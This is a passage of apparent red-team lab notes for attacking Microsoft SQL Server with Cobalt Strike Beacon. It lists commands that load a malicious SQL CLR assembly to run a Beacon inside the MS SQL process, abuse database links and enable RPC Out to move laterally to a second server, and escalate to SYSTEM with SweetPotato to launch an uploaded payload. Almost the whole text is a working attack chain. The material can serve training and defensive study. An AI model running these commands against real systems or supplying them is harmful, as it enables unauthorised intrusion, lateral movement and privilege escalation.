 ```csharp
```



This will perform classic injection where the Beacon will run inside the MS SQL process.



1.  Load the DLL on _lon-db-1_.

    ```batch
    sql-clr lon-db-1 C:\Users\Attacker\source\repos\MyProcedure\bin\Release\MyProcedure.dll MyProcedure
    ```
2. Link to the Beacon.
   1. link lon-db-1 TSVCPIPE-4b2f70b3-ceba-42a5-a4b5-704e1c41337
3. Disable SQL CLR _lon-db-1_.
   1. sql-disableclr lon-db-1

## Lateral Movement <a href="#lateral-movement" id="lateral-movement"></a>

1. Enumerate SQL links on _lon-db-1_.
   1. sql-links lon-db-1
2. Verify your privileges on _lon-db-2_ via _lon-db-1_.
   1. sql-whoami lon-db-1 "" lon-db-2
3. Check the status of RPC Out on the link.
   1. sql-checkrpc lon-db-1
4. Enable RPC Out on the link to _lon-db-2_.
   1. sql-enablerpc lon-db-1 lon-db-2
5.  Execute the SQL CLR payload on _lon-db-2_ via _lon-db-1_.

    ```batch
    sql-clr lon-db-1 C:\Users\Attacker\source\repos\MyProcedure\bin\Release\MyProcedure.dll MyProcedure "" lon-db-2
    ```
6. Link to the Beacon on _lon-db-2_ from the Beacon running on _lon-db-1_.
   1. link lon-db-2 TSVCPIPE-4b2f70b3-ceba-42a5-a4b5-704e1c41337

## Privilege Escalation <a href="#privilege-escalation" id="privilege-escalation"></a>

1.  Enumerate token privileges.

    ```batch
    execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe TokenPrivileges
    ```
2.  Change Beacon's working directory.

    ```batch
    cd C:\Windows\ServiceProfiles\MSSQLSERVER\AppData\Local\Microsoft\WindowsApps
    ```
3. Upload a tcp-local Payload.
   1. upload C:\Payloads\tcp-local\_x64.exe
4.  Execute the payload using SweetPotato.

    ```batch
    execute-assembly C:\Tools\SweetPotato\bin\Release\SweetPotato.exe -p "C:\Windows\ServiceProfiles\MSSQLSERVER\AppData\Local\Microsoft\WindowsApps\tcp-local_x64.exe"
    ```
5. Connect to the new Beacon.
   1. connect localhost 1337
